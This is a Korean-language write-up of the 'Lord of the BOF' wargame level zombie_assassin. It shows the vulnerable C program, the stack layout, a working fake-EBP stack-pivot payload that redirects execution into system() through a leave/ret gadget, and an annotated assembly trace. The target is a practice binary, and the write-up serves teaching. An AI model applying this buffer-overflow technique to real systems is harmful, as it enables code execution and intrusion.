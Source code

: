 ```yaml
---
title: The Lord of the BOF - assassin -> zombie_assassin
date: 2017-01-04 17:14:00 +0900 KST
categories: [write-up]
---
```


코드는 이렇다.

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - zombie_assassin
    - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack retbayed you!\n");
        exit(0);
    }

    if(argv[1][47] == '\x40')
    {
        printf("library retbayed you, too!!\n");
        exit(0);
    }

    // strncpy instead of strcpy!
    strncpy(buffer, argv[1], 48);
    printf("%s\n", buffer);
}
```

구조상

01 ~ 40: 버퍼

41 ~ 44: sfp

45 ~ 48: ret

이렇게 되고, 이 공간만 내가 쓸 수 있다.

푸는 건 FEBP를 검색해서 풀었다.

sfp에 내가 쓰고 싶은 스택 주소를 넣어주면 leave 명령어가 실행될 때
ebp에 내가 입력한 스택 주소가 입력된다.
그리고 ret 주소를 leave ret이 있는 주소로 지정해준다.

이게 무슨 말이냐 하면...

일단 페이로드부터 보자

```sh
./zombie_assassin `python -c 'print "A"*4 + "\xe0\x8a\x05\x40" + "B"*4 + "\xf9\xbf\x0f\x40" + "C"*24 + "\xa0\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
```

0xbffffaa0은 AAAA 문자열이 있는 주소다.

0x080484df는 leave와 ret 명령어가 있는 주소다.

실행 과정을 잘 써보면 이렇게 된다.

```nasm
main:
    push ebp (sfp에 ebp PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (sfp에서 0xbffffaa0 POP)
ret:
    pop eip (ret에서 0x080484df POP)
leave:
    mov esp, ebp (이제 스택 위치는 0xbffffaa0)
    pop ebp (0xbffffaa0에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa4에서 0x40058ae0 POP)
system:
    push ebp (0xbffffaa4에 0x41414141을 PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (0xbffffaa4에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa8에서 0x42424242 POP)
0x42424242:
    ???
```
